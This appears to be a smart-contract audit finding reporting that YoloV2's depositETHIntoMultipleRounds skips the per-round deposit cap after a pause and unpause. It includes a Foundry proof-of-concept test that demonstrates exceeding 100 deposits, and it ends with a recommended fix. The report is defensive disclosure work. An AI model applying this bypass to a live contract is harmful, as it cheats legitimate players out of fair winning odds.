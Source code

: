 Breezy Ebony Whale

medium

# Maximum number of deposits per round bypass possible after unpause

## Summary

The solution is implemented to allow only certain number of deposits to be done per each round. So players must adjust their tactic to this limitation. However, this condition can be bypassed in certain scenario. Whenever next, not `Open` round has maximum number of deposits done and the solution is paused by the owner before the `fulfillRandomWords()` function is executed, the `_startRound()` function will not attempt to draw winner for such round. Then, subsequent calls to the `depositETHIntoMultipleRounds()` function can be done to add more deposits, exceeding the limits due to insufficient validation within the `_shouldDrawWinner()` function. As a result, malicious players are granted possibility to invest more Ether within such round whenever they consider it potentially beneficial, decreasing chances of legitimate players for winning. Additionally, deposit of NFT or ERC20 tokens via the `deposit()` function will not be possible anymore in such round. Eventually, malicious players can extend this situation on future rounds by making deposits by means of the `depositETHIntoMultipleRounds()` function.

## Vulnerability Detail

Firstly, the solution defines constant representing the maximum number of deposits per round possible.

[YoloV2.sol#L81](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L81)
```solidity
[...]
    uint256 private constant MAXIMUM_NUMBER_OF_DEPOSITS_PER_ROUND = 100;
[...]
```

Secondly, the constant is used within the `_deposit()` function to prevent multiple, exceeding limit deposits. However, there is no similar check within the `depositETHIntoMultipleRounds()` function.

[YoloV2.sol#L1221-L1223](https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L1221-L1223)
```solidity
[...]
        if (roundDepositCount > MAXIMUM_NUMBER_OF_DEPOSITS_PER_ROUND) {
            revert MaximumNumberOfDepositsReached();
        }
[...]
```

Within the `depositETHIntoMultipleRounds()` and `_startRound()`  functions the `_shouldDrawWinner()` function is called. This functions checks whether `roundDepositCount` is equal to `MAXIMUM_NUMBER_OF_DEPOSITS_PER_ROUND`.

[YoloV2.sol#L1711C1-L1719C6](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L1711C1-L1719C6)
```solidity
    function _shouldDrawWinner(
        uint256 numberOfParticipants,
        uint256 maximumNumberOfParticipants,
        uint256 roundDepositCount
    ) private pure returns (bool shouldDraw) {
        shouldDraw =
            numberOfParticipants == maximumNumberOfParticipants ||
            (numberOfParticipants > 1 && roundDepositCount == MAXIMUM_NUMBER_OF_DEPOSITS_PER_ROUND);
    }
```

Whenever  the `fulfillRandomWords()` function is executed and the contract is in the `paused` state the next round is automatically opened, but no attempt to draw winner is made.

[YoloV2.sol#L965](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L965)
```solidity
[...]
            if (
                !paused() &&
                _shouldDrawWinner(numberOfParticipants, round.maximumNumberOfParticipants, round.deposits.length)
            ) {
                _drawWinner(round, roundId);
            } else {
[...]
```

Afterwards, assuming that this round had made 100 deposits and the contract is in the `unpaused` state again, players can add more deposits within this round by means of the `depositETHIntoMultipleRounds()` function. The validation within the `_shouldDrawWinner()` function is ineffective as `roundDepositCount` would have a number larger than 100 in such case.
Also, future rounds can have exceeding number of deposits added, as validation checks only present, `Open` round.

## Proof of Concept

In this PoC, first player deposits 1 Ether into first and second round and 10 ether into third round. The malicious player makes 99 deposits in these rounds, mainly focusing on third round.  As the number of deposits within first round reaches the limit, it changes into to `Drawing` state.  At this point the owner pauses the contract.  The `rawFulfillRandomWords()` is called to close first round, however, it does not impact second round due to `paused` state. The owner unpauses the contract.  Malicious player calls `depositETHIntoMultipleRounds()` again and successfully makes 101st deposit into second and third round. 

```solidity
function test_gsec_depositETHIntoMultipleRounds_bypass_number_of_deposits_after_pause() public {
        uint256[] memory amounts = new uint256[](3);
        amounts[0] = 1 ether;
        amounts[1] = 1 ether;
        amounts[2] = 10 ether;

        vm.deal(user1, 12 ether); 
        vm.prank(user1);
        yolo.depositETHIntoMultipleRounds{value: 12 ether}(amounts);

        amounts[0] = 0 ether;
        amounts[1] = 0 ether;
        amounts[2] = 2 ether / 100; 

        for (uint256 i = 0; i < 99; i++) {
            vm.deal(user2, 2 ether / 100);
            vm.prank(user2);
            yolo.depositETHIntoMultipleRounds{value: 2 ether / 100}(amounts);
        }

        (IYoloV2.RoundStatus status,,,,,uint40 numberOfParticipants,address winner,uint96 valuePerEntry,uint256 protocolFeeOwed,IYoloV2.Deposit[] memory deposits) = yolo.getRound(1);

        assertEq(deposits.length, 100, "number of deposits");
        assertEq(uint8(status), uint8(IYoloV2.RoundStatus.Drawing));

        vm.prank(owner);
        yolo.togglePaused();

        uint256[] memory randomWords = new uint256[](1);
        randomWords[0] = 69_420;

        expectEmitCheckAll();
        emit RoundStatusUpdated(1, IYoloV2.RoundStatus.Drawn);

        vm.prank(VRF_COORDINATOR);
        VRFConsumerBaseV2(yolo).rawFulfillRandomWords(FULFILL_RANDOM_WORDS_REQUEST_ID, randomWords);

        vm.prank(owner);
        yolo.togglePaused();
        (status,,,,,numberOfParticipants,winner,valuePerEntry,protocolFeeOwed,deposits) = yolo.getRound(2);

         assertEq(deposits.length, 100, "number of deposits");
        assertEq(uint8(status), uint8(IYoloV2.RoundStatus.Open));

        IYoloV2.DepositCalldata[] memory depositsCalldata;
        vm.deal(user2, 2 ether / 100); 
        vm.prank(user2);
        vm.expectRevert(IYoloV2.MaximumNumberOfDepositsReached.selector);
        yolo.deposit{value: 2 ether / 100}(2, depositsCalldata);

        amounts[0] = 0 ether;
        amounts[1] = 2 ether / 100; 
        amounts[2] = 0 ether;

        vm.prank(user2);
        yolo.depositETHIntoMultipleRounds{value: 2 ether / 100}(amounts);

        (status,,,,,numberOfParticipants,winner,valuePerEntry,protocolFeeOwed,deposits) = yolo.getRound(2);

        assertEq(deposits.length, 101, "number of deposits");
        assertEq(uint8(status), uint8(IYoloV2.RoundStatus.Open));

        (status,,,,,numberOfParticipants,winner,valuePerEntry,protocolFeeOwed,deposits) = yolo.getRound(3);

        assertEq(deposits.length, 101, "number of deposits");
        assertEq(uint8(status), uint8(IYoloV2.RoundStatus.None));
    }
```

## Impact

- Malicious players are granted possibility to invest more Ether within impacted round whenever they consider it potentially beneficial, decreasing chances of legitimate players for winning.
- Deposit of NFT or ERC20 tokens via the `deposit()` function will not be possible anymore in impacted round.
- The bypass of deposits per round can be extended on future rounds by means of the  `depositETHIntoMultipleRounds()` function.

## Code Snippet

[YoloV2.sol#L1711C1-L1719C6](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L1711C1-L1719C6)

## Tool used

Manual Review, Foundry

## Recommendation

It is recommended to ensure that only certain number of deposits can be added by means of the `depositETHIntoMultipleRounds()` function. It is recommended to consider adding similar validation to the `depositETHIntoMultipleRounds()` as it is done within the `_deposit()` ([YoloV2.sol#L1221-L1223](https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L1221-L1223)).
